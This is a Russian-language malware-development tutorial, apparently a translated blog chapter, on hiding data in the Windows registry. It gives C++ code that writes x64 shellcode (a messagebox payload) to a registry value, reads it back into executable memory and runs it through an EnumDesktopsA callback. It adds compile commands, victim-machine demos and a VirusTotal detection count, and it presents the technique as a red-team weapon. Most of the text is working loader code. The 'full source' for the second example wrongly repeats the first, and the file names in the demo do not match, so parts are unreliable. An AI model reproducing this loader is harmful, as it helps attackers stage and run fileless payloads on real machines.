









\newpage
\subsection{42. трюк разработки вредоносного ПО. Хранение бинарных данных в реестре. Простой пример на C++}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

Сегодня я хочу сосредоточить своё исследование на ещё одном трюке разработки вредоносного ПО: хранении бинарных данных в реестре Windows. Это распространённая техника, которая может использоваться вредоносным ПО для обеспечения постоянства или для хранения вредоносных полезных данных.    

### практический пример 1

Ниже приведён простой пример кода для хранения бинарных данных в реестре:      

```cpp
void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, 
  sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);
}
```

Этот код запишет бинарные данные `{0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77}` в `HKEY_CURRENT_USER\Software\meowApp\secretMeow`. Как можно заметить, перед сохранением необходимо создать ключ `Software\meowApp`. Убедитесь, что у вас есть соответствующие разрешения на запись в реестр.      

Хорошо, а как можно извлечь эти бинарные данные из реестра?    

Это простая задача:      

```cpp
void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
    printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data; 
}
```

Данные считываются в динамический массив, который затем выводится в консоль для проверки корректности. Важно вызвать `delete[]` для массива `data` после завершения работы с ним, чтобы избежать утечки памяти.    

Таким образом, полный исходный код выглядит следующим образом:     

```cpp
/*
 * hack.cpp - store binary data in registry. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/22/malware-tricks-29.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);
}

void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
    printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data;
}

int main(void) {
  registryStore();
  registryGetData();
  return 0;
}
```

Обратите внимание, что это всего лишь "грязный" PoC.      

### демонстрация 1

Давайте посмотрим всё в действии.     

Сначала компилируем наш "вредонос" на машине атакующего:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}      

Затем просто запускаем `powershell` от имени администратора и выполняем наш бинарный файл на машине жертвы (`Windows 10 22H2 x64`):     

```powershell
.\hack.exe
```

{width="80%"}      

{width="80%"}      

{width="80%"}      

Как можно заметить, всё сработало идеально! =^..^=    

### практический пример 2

А что если хранить полезную нагрузку в реестре? Давайте проверим это на практике.      

Просто изменим наши функции в `hack.cpp`:      

```cpp
void registryStore() {
  HKEY hkey;

  const unsigned char data[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);
}
```

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:

```cpp
const unsigned char data[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Затем извлекаем шеллкод и запустим его с помощью [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html):       

```cpp
void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, 
  nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  LPVOID data = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, 
  static_cast<LPBYTE>(data), &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)data, 
  (LPARAM)NULL);

  // clean up
  VirtualFree(data, 0, MEM_RELEASE);
  RegCloseKey(hkey);
}
```

Итак, полный исходный код нашего второго примера:    

```cpp
/*
 * hack.cpp - store binary data in registry. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/22/malware-tricks-29.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);
}

void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
    printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data;
}

int main(void) {
  registryStore();
  registryGetData();
  return 0;
}
```

### демонстрация 2

Давайте посмотрим на эту логику в действии. Сначала компилируем `hack2.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}      

Затем просто запускаем `powershell` от имени администратора и выполняем наш бинарный файл на машине жертвы (`Windows 10 22H2 x64`):     

```powershell
.\hack2.exe
```

{width="80%"}      

{width="80%"}      

Как можно заметить, всё сработало, как и ожидалось! =^..^=    

Этот метод выполнения кода часто используется вредоносным ПО (например, [ComRAT](https://attack.mitre.org/software/S0126), [PillowMint](https://attack.mitre.org/software/S0517) и [PipeMon](https://attack.mitre.org/software/S0501)) и APT-группами ([Turla](https://attack.mitre.org/groups/G0010/)), поэтому антивирусное ПО, вероятно, будет его выявлять, и он может не работать на системах с определёнными мерами безопасности.     

Давайте загрузим его на VirusTotal:    

{width="80%"}      

[https://www.virustotal.com/gui/file/fe7e412aef1af9dee801224567151f7eaa17ffdbc8c1e97202b4faccb53100e8/details](https://www.virustotal.com/gui/file/fe7e412aef1af9dee801224567151f7eaa17ffdbc8c1e97202b4faccb53100e8/details)       

**Итак, 16 из 70 антивирусных движков определили наш файл как вредоносный.**     

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[RegCreateKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa)     
[RegOpenKeyEx](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)     
[RegSetValueEx](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)     
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[MITTRE ATT&CK: Fileless Storage](https://attack.mitre.org/techniques/T1027/011/)     
[ComRAT](https://attack.mitre.org/software/S0126)    
[PillowMint](https://attack.mitre.org/software/S0517)     
[PipeMon](https://attack.mitre.org/software/S0501)     
[Turla](https://attack.mitre.org/groups/G0010/)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-05-22-malware-tricks-29)           
